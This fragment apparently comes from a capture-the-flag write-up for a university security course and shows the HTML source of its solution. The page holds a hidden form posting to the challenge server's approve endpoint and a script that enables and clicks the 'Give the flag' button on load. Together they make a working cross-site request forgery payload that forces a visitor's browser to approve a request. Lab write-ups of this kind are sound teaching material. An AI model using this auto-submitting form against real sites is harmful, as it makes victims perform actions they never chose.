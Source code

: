 <form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/e365a80bdaa5f5de1f3741698c6d08e8be790850/approve" role="form">
    <div class="submit">        
        <input type="submit" id="giveflag" value="Give the flag" disabled>
    </div>
</form>

<script>
    const button = document.getElementById("giveflag");
    button.disabled = false;
    button.click();
</script>
